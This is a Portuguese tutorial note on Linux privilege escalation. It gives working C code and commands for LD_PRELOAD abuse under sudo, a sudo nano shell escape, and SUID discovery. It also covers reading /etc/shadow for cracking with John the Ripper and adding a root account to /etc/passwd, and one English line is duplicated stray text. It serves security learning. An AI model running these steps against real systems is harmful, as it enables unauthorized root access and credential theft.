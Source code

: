 ```yaml
---
tags:
  - EXPLOITATION
  - Linux
---
```

# Sudo

Podemos usar um *hack* para vazar informações aproveitando uma função do aplicativo. Como você pode ver abaixo, o **Apache2** tem uma opção que *suporta o carregamento de arquivos de configuração alternativos* (`-f` : especifique um ServerConfigFile alternativo).
![[Pasted image 20231218210157.png]]

Em alguns sistemas, você pode ver a opção de ambiente LD_PRELOAD

![[Pasted image 20231218210836.png]]

`LD_PRELOAD` é uma função que *permite que qualquer programa use bibliotecas compartilhadas*.  Se a opção `env_keep` estiver ativada, poderemos gerar uma biblioteca compartilhada que será carregada e executada antes da execução do programa. Observe que a opção `LD_PRELOAD` será ignorada se a ID de usuário real for diferente da ID de usuário efetiva.

As etapas desse vetor de escalonamento de privilégios podem ser resumidas da seguinte forma;

- Verificar se há LD_PRELOAD (com a opção `env_keep`)
- Escreva um código C simples compilado como um arquivo de objeto compartilhado (extensão .so)
- Executar o programa com direitos sudo e a opção LD_PRELOAD apontando para o nosso arquivo .so

O código C simplesmente gerará um shell raiz e pode ser escrito da seguinte forma:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Podemos salvar esse código como shell.c e compilá-lo usando o gcc em um arquivo de objeto compartilhado usando os seguintes parâmetros;
```shell]
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![[Pasted image 20231218213144.png]]

Agora podemos usar esse arquivo de objeto compartilhado ao iniciar qualquer programa que nosso usuário possa executar com o sudo. No nosso caso, o Apache2, o find ou quase todos os programas que podemos executar com o sudo podem ser usados.

Precisamos executar o programa especificando a opção LD_PRELOAD, como segue;

```shell
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

Isso resultará em um shell com privilégios de root.

![[Pasted image 20231218213231.png]]

### nano
Quando o usuário tem acesso ao `nano` mas não tem como salvar o arquivo, voltamos à raiz por meio de `cd/` e executamos o comando `id`, podemos ver que também não temos acesso à raiz.

Execute `sudo nano` e pressione `CTRL+R` e `CTRL+X`. Digite o seguinte comando para obter acesso root:  
```shell
reset; bash 1>&0 2>&0
```
Depois pressione Enter.

gain root access: reset; bash 1>&0 2>&0 and press Enter.
Linux PrivEsc
![[Pasted image 20231218232707.png]]

Quando executamos o comando id agora, podemos ver que temos acesso root.

![[Pasted image 20231218232732.png]]


# SUDI

Grande parte dos controles de privilégios do Linux depende do *controle das interações entre usuários e arquivos*. Isso é feito com **permissões** . Elas são concedidas aos usuários dentro de seus **níveis de privilégio**. Isso muda com o **SUID** (Set-user Identification) e o **SGID** (Set-group Identification). Elas permitem que os arquivos sejam executados com o nível de permissão do proprietário do arquivo ou do proprietário do grupo, respectivamente.

```shell
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20231219235143.png]]

O bit SUID definido para o editor de texto nano nos permite criar, editar e ler arquivos usando o privilégio do proprietário do arquivo. O Nano é de propriedade do root, o que provavelmente significa que podemos ler e editar arquivos em um nível de privilégio mais alto do que o do nosso usuário atual. 

Nesse estágio, temos duas opções básicas para o aumento de privilégios: 
- Ler o arquivo `/etc/shadow` ou adicionar nosso usuário ao `/etc/passwd`.


### Leitura do arquivo `/etc/shadow`

Vamos dar um exemplo: O editor de texto nano tem o bit SUID definido ao executar o comando `find / -type f -perm -04000 -ls 2>/dev/null`.

nano `/etc/shadow` imprimirá o conteúdo do arquivo `/etc/shadow`. Podemos usar a ferramenta `unshadow` para criar um arquivo que possa ser violado pelo John the Ripper. Para isso, o `unshadow` precisa dos arquivos `/etc/shadow` e `/etc/passwd`.

![[Pasted image 20231220001452.png]]

```shell
unshadow passwd.txt shadow.txt > passwords.txt
```

![[Pasted image 20231220001525.png]]

## Adicionar um novo usuário com privilégios de root. 

Precisaremos do valor de hash da senha que queremos que o novo usuário tenha. Isso pode ser feito rapidamente usando a ferramenta openssl no Kali Linux.

![[Pasted image 20231220001550.png]]

Em seguida, adicionaremos essa senha com um nome de usuário ao arquivo /etc/passwd.

![[Pasted image 20231220001605.png]]

Depois que nosso usuário for adicionado (observe como root:/bin/bash foi usado para fornecer um shell de root), precisaremos mudar para esse usuário e, com sorte, teremos privilégios de root.

![[Pasted image 20231220001629.png]]

